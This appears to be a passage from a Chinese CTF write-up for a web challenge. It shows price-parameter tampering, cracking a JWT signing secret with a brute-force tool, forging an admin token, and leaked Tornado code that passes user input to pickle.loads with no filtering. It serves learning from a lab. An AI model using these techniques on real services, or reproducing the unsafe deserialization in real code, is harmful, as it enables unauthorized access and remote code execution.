Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581601241|12:commodity_id|8:MTYyNA==|98a33c4c4b021b2fabeb8faee18351779c8e489e11bf7a944f88bb6a364a6219";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|60ba95ac|f3d3b4ae2b9d4c0e64a6c561c8b228e6|1581594433
&
id=1624
```
可以猜测`1581594433`是用户ID，点击结算，抓包：
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581602242|12:commodity_id|8:MTYyNA==|f83ff9b924eaaac1ea2a0dc46b43962dbd36ae8ed96605c96fb44ca83df37378";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|0eaae91b|9dc3c819458d30b90ab6b9d6a6a25451|1581594433&id=1624&price=1145141919.0&discount=0.8
```
尝试修改折扣为0.000000001，触发重定向，发现有个jwt，[查资料](https://jwt.io/)后发现是一种认证，还有一个key用于加密。重定向到`/b1g_m4mber`：
```
该页面，只允许admin访问
```
[爆破工具](https://github.com/brendan-rius/c-jwt-cracker)：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo
Secret is "1Kun"
```
使用刚刚的工具，得到admin的jwt如下：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```
成功进入页面，拿到源码：
```
<!-- 潜伏敌后已久,只能帮到这了 -->
/static/asd1f654e683wq/www.zip
删库跑路前我留了好东西在这里
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```
开始读代码qaq，太tm的多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊。发现了发现了！！：
```
(r'/b1g_m4mber', AdminHandler)


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

```
这里面有个pickle，和php的序列化那是一个东西，这里完全没有任何的过滤，另外，在models.py中还有一个`desc = "hint:I'm flag man"`并写入到了数据库。
